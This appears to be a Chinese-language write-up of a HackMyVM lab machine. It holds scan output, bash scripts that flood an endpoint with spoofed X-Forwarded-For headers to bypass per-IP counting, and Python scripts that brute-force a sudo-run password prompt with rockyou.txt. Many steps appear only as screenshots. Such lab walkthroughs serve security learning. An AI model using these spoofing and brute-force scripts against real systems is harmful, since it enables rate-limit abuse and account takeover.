## 网段扫描
```
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.59	a0:78:17:62:e5:0a	Apple, Inc.
192.168.137.82	3e:21:9c:12:bd:a3	(Unknown: locally administered)
```

## 端口扫描

```
root@LingMj:~/xxoo/jarjar# nmap -p- -sV -sC 192.168.137.82 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 03:54 EDT
Nmap scan report for tcpraiders.hmv.mshome.net (192.168.137.82)
Host is up (0.040s latency).
All 65535 scanned ports on tcpraiders.hmv.mshome.net (192.168.137.82) are in ignored states.
Not shown: 65535 closed tcp ports (reset)
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds
                                                                                                                                                                                                        
root@LingMj:~/xxoo/jarjar# nmap -p- -sV -sC 192.168.137.82
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 03:55 EDT
Nmap scan report for tcpraiders.hmv.mshome.net (192.168.137.82)
Host is up (0.0064s latency).
All 65535 scanned ports on tcpraiders.hmv.mshome.net (192.168.137.82) are in ignored states.
Not shown: 65535 closed tcp ports (reset)
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.93 seconds
```

## 获取webshell
  
  

>目前没有出现对应ipv6端口
>

  

>目前还没有脚本也不行
>

>端口是0需要转发
>

  
  


>这是我用的脚本
>

```
#!/bin/bash

# 配置参数
TOKEN="093f21d7-0bdf-466f-b88d-3ebdaa4d080e"
URL="http://192.168.137.111:0/support?token=$TOKEN"
MAX_REQUESTS=65535  # 最大请求次数（0xFFFF）
THREADS=50          # 并发线程数
TIMEOUT=3           # 超时时间（秒）

# 颜色定义
RED='\033[1;31m'
GREEN='\033[1;32m'
YELLOW='\033[1;33m'
BLUE='\033[1;34m'
NC='\033[0m' # 重置颜色

# 生成随机 IP (格式: 1-255.0-255.0-255.0-255)
rand_ip() {
    echo "$((RANDOM%254+1)).$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256))"
}

# 发送请求并检查响应
send_request() {
    local ip=$(rand_ip)
    local response=$(curl -s -m $TIMEOUT -H "X-Forwarded-For: $ip" "$URL")
    
    if [[ "$response" == *"flag{"* ]]; then
        echo -e "\n${GREEN}[+] FLAG 发现: $response${NC}"
        kill -TERM $$ 2>/dev/null  # 终止所有子进程
    elif [[ "$response" == *"助力成功"* ]]; then
        echo -ne "\r${BLUE}[*] 已发送: $((++count)) 次请求${NC}" 
    else
        echo -e "\n${YELLOW}[!] 异常响应: $response${NC}"
    fi
}

# 清理后台进程
trap "jobs -p | xargs kill -9" EXIT

# 主循环
echo -e "${YELLOW}[!] 启动自动化助力攻击 (目标: $MAX_REQUESTS 次请求)...${NC}"
count=0
for ((i=1; i<=MAX_REQUESTS; i++)); do
    send_request &
    
    # 控制并发数
    while [[ $(jobs -r | wc -l) -ge $THREADS ]]; do
        sleep 0.1
    done
done

wait
echo -e "\n${RED}[-] 未找到 FLAG，请检查参数或增加尝试次数${NC}"
```


  


>当然虽然gtp说了，但是我还是要了提示才知道，不过我觉得随机数去刷票不如按1开始顺序到最后一个快因为随机数可以出现重复
>


>这随机数也太久了我以为随机数重复几率更低，真服了
>

  

>改得话还真挺难的因为还得重新跑一遍
>

```
#!/bin/bash

# 配置参数
TOKEN="093f21d7-0bdf-466f-b88d-3ebdaa4d080e"
URL="http://192.168.137.111:0/support?token=$TOKEN"
THREADS=50                    # 并发线程数
TIMEOUT=3                     # 超时时间（秒）
START_IP=0                    # 起始IP数值（0.0.0.0）
END_IP=4294967295             # 终止IP数值（255.255.255.255）

# 颜色定义
RED='\033[1;31m'
GREEN='\033[1;32m'
YELLOW='\033[1;33m'
BLUE='\033[1;34m'
NC='\033[0m'

# 将32位整数转换为IP地址
int_to_ip() {
    local ip=$1
    echo "$(( (ip >> 24) & 0xFF )).$(( (ip >> 16) & 0xFF )).$(( (ip >> 8) & 0xFF )).$(( ip & 0xFF ))"
}

# 发送请求
send_request() {
    local ip_int=$1
    local ip=$(int_to_ip $ip_int)
    local response=$(curl -s -m $TIMEOUT -H "X-Forwarded-For: $ip" "$URL")
    
    if [[ "$response" == *"flag{"* ]]; then
        echo -e "\n${GREEN}[+] FLAG 发现于 $ip : $response${NC}"
        kill -TERM $$ 2>/dev/null
    elif [[ "$response" == *"助力成功"* ]]; then
        echo -ne "\r${BLUE}[*] 当前进度: $ip (已完成 $(( (ip_int - START_IP)*100/(END_IP - START_IP) ))% )${NC}"
    fi
}

# 清理进程
trap "jobs -p | xargs kill -9" EXIT

# 主循环
echo -e "${YELLOW}[!] 启动顺序IP助力攻击 (范围: $(int_to_ip $START_IP) 到 $(int_to_ip $END_IP))...${NC}"

for ((ip_int=$START_IP; ip_int<=$END_IP; ip_int++)); do
    send_request $ip_int &
    
    # 控制并发数
    while [[ $(jobs -r | wc -l) -ge $THREADS ]]; do
        sleep 0.1
    done
done

wait
echo -e "\n${RED}[-] 未找到 FLAG，请缩小IP范围或检查服务状态${NC}"
```

>换一个脚本，下次一定选python，不知道为何感觉python比shell快
>

  
  


>看了ps -ef 是存在并发到但是前面都匹配过了
>

  

>还有一个方案
>

## 提权

  

  

  

>调终端的这里是ash而且没有script，我专门查了一下，主要这个系统我没咋打过之前这个作者的靶机我都用蚁剑操作
>

  

>咋还翻过来提示呢
>

  


>找到115次字典说rocy么，如果是没有ssh需要suforce么
>

>又是爆破，哎我并发也不行这个，主要字典我不知道是否是这个
>

```
import subprocess

def reverse_line(line):
    return line.strip()[::-1]

try:
    with open('rockyou.txt', 'r', encoding='latin-1') as f:
        for line in f:
            password = line.strip()
            # 启动进程，合并stderr到stdout
            proc = subprocess.Popen(
                ['sudo', '-u', 'luna', '/usr/sbin/luna'],
                stdin=subprocess.PIPE,
                stdout=subprocess.PIPE,
                stderr=subprocess.STDOUT,
                text=True
            )
            # 发送密码并获取输出
            stdout_output, _ = proc.communicate(input=password + '\n')
            # 检查每一行反转后是否包含错误信息
            incorrect_found = False
            for output_line in stdout_output.splitlines():
                reversed_line = reverse_line(output_line)
                if 'Incorrect password.' in reversed_line:
                    incorrect_found = True
                    break
            if not incorrect_found:
                print(f"Correct password found: {password}")
                exit(0)
            else:
                print(f"Tried: {password} -> Incorrect")
except FileNotFoundError:
    print("Error: rockyou.txt not found.")
    exit(1)
except KeyboardInterrupt:
    print("\nProcess interrupted by user.")
    exit(1)

print("No correct password found in the list.")
exit(1)
```

>不会这个又给我干一宿不出密码吧,又过去了一段时间我开始怀疑是否在ro里面这个密码
>

  

>真跑完有点离谱了，还没出答案我已经开始怀疑是否应该这个方式了，刷单一个小时，这个也一个小时的话太离谱了虽然已经过去50分钟了，我已经开始怀疑我的方案真实性，主要别人老快了，真服了
>

>不行了看一下是这个方案不，再这样跑下去我今晚都凌晨无解，是这个方向看了方案但是唯一问题是我输入的东西应该也反转而不是支棱输入进去，而且成没有回显
>

  

>好了脚本没事问题
>

```
import subprocess

def reverse_line(line):
    return line.strip()[::-1]

try:
    with open('pass.txt', 'r', encoding='latin-1') as f:
        for line in f:
            original_pass = line.strip()
            reversed_pass = original_pass[::-1]  # 关键修改：反转密码
            
            proc = subprocess.Popen(
                ['sudo', '-u', 'luna', '/usr/sbin/luna'],
                stdin=subprocess.PIPE,
                stdout=subprocess.PIPE,
                stderr=subprocess.STDOUT,
                universal_newlines=True  # 确保文本模式
            )
            
            # 发送反转后的密码
            stdout_output, _ = proc.communicate(input=reversed_pass + '\n')
            
            # 检查输出是否包含错误信息
            incorrect_found = any(
                'Incorrect password.' in reverse_line(output_line)
                for output_line in stdout_output.split('\n')
            )
            
            if not incorrect_found:
                print(f"[+] Correct password found! Original: {original_pass}")
                print(f"[*] Actual input sent: {reversed_pass}")
                exit(0)
            else:
                print(f"[-] Trying: {original_pass} -> Sent: {reversed_pass}")

except FileNotFoundError:
    print("[!] Error: rockyou.txt not found in current directory")
    exit(1)
except Exception as e:
    print(f"[!] Runtime error: {str(e)}")
    exit(1)

print("[!] No valid password found in the list")
exit(1)
```

  
  

>网络不太行，我直接构建tar模型直接做过但是啥权限没有很难受啊
>

  
  
  


>这里验证我的iamge没有问题,这里主要我本来就有tar保证它是没问题的但是去虚拟机就是报错
>

  
